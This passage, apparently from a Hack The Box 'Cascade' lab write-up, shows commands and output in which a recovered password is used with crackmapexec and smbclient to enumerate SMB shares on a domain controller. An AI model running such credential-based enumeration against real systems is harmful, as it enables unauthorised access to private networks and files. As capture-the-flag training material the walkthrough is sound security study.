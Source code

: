 
![image-center](/images/htb/htb_cascade_bloodhound_rthompson.png){: .align-center}


```bash
$ crackmapexec smb 10.129.155.114 -d cascade.local -u r.thompson -p rY4n5eva --shares
SMB         10.129.155.114  445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.129.155.114  445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva 
SMB         10.129.155.114  445    CASC-DC1         [+] Enumerated shares
SMB         10.129.155.114  445    CASC-DC1         Share           Permissions     Remark
SMB         10.129.155.114  445    CASC-DC1         -----           -----------     ------
SMB         10.129.155.114  445    CASC-DC1         ADMIN$                          Remote Admin
SMB         10.129.155.114  445    CASC-DC1         Audit$                          
SMB         10.129.155.114  445    CASC-DC1         C$                              Default share
SMB         10.129.155.114  445    CASC-DC1         Data            READ            
SMB         10.129.155.114  445    CASC-DC1         IPC$                            Remote IPC
SMB         10.129.155.114  445    CASC-DC1         NETLOGON        READ            Logon server share 
SMB         10.129.155.114  445    CASC-DC1         print$          READ            Printer Drivers
SMB         10.129.155.114  445    CASC-DC1         SYSVOL          READ            Logon server share 
```

```bash
$ smbclient \\\\10.129.155.114\\Data -U r.thompson
Enter WORKGROUP\r.thompson's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jan 26 22:27:34 2020
  ..                                  D        0  Sun Jan 26 22:27:34 2020
  Contractors                         D        0  Sun Jan 12 20:45:11 2020
  Finance                             D        0  Sun Jan 12 20:45:06 2020
  IT                                  D        0  Tue Jan 28 13:04:51 2020
  Production                          D        0  Sun Jan 12 20:45:18 2020
  Temps                               D        0  Sun Jan 12 20:45:15 2020

                6553343 blocks of size 4096. 1626796 blocks available
smb: \> 
```
